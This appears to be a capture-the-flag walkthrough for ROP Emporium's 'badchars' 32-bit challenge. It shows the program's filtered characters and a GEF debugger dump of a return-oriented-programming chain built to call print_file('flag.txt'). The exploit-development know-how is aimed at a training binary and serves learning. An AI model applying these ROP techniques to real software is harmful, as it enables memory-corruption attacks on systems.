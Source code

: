 
# How Use ROP
So, we want to use ROP in order to set up our arguments for a call to print_file (just like in the previous exercise), which works much like "cat". We should call print_file("flag.txt"). The only difference here is that certain characters are considered "bad" by the program, and won't be stored properly in memory


# Badchars in Memory
Before we get to debugging, let's see what the bad chars are by simply running the program:
```sh
$ ./badchars32 
badchars by ROP Emporium
x86

badchars are: 'x', 'g', 'a', '.'
> hello
Thank you!
```

Duly noted...


Okay, let's debug our original solution (from write4) and see why it doesn't work with this badchars binary...

```asm
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xb       
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0xffffffff
$edx   : 0xffffffff
$esp   : 0xffeafd68  →  0x0804854f  →  <usefulGadgets+12> mov DWORD PTR [edi], esi
$ebp   : 0xebeb6c66
$esi   : 0xf7fae000  →  0x001e6d6c
$edi   : 0x0804a018  →  0x00000000
$eip   : 0x080485bc  →  <__libc_csu_init+92> ret 
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
─────────────────────────────────────────────────────────────────────────────── stack ────
0xffeafd68│+0x0000: 0x0804854f  →  <usefulGadgets+12> mov DWORD PTR [edi], esi	 ← $esp
0xffeafd6c│+0x0004: 0x080485ba  →  <__libc_csu_init+90> pop edi
0xffeafd70│+0x0008: 0x0804a01c  →  0x00000000
0xffeafd74│+0x000c: 0x74eb74eb
0xffeafd78│+0x0010: 0x0804854f  →  <usefulGadgets+12> mov DWORD PTR [edi], esi
0xffeafd7c│+0x0014: 0x080483d0  →  <print_file@plt+0> jmp DWORD PTR ds:0x804a014
0xffeafd80│+0x0018: 0x64646464
0xffeafd84│+0x001c: 0x0804a018  →  0x00000000
───────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80485b9 <__libc_csu_init+89> pop    esi
●   0x80485ba <__libc_csu_init+90> pop    edi
    0x80485bb <__libc_csu_init+91> pop    ebp
 →  0x80485bc <__libc_csu_init+92> ret    
   ↳   0x804854f <usefulGadgets+12> mov    DWORD PTR [edi], esi
       0x8048551 <usefulGadgets+14> ret    
       0x8048552 <usefulGadgets+15> xchg   ax, ax
       0x8048554 <usefulGadgets+17> xchg   ax, ax
       0x8048556 <usefulGadgets+19> xchg   ax, ax
       0x8048558 <usefulGadgets+21> xchg   ax, ax
───────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "badchars32", stopped 0x80485bc in __libc_csu_init (), reason: SINGLE STEP
─────────────────────────────────────────────────────────────────────────────── trace ────
```
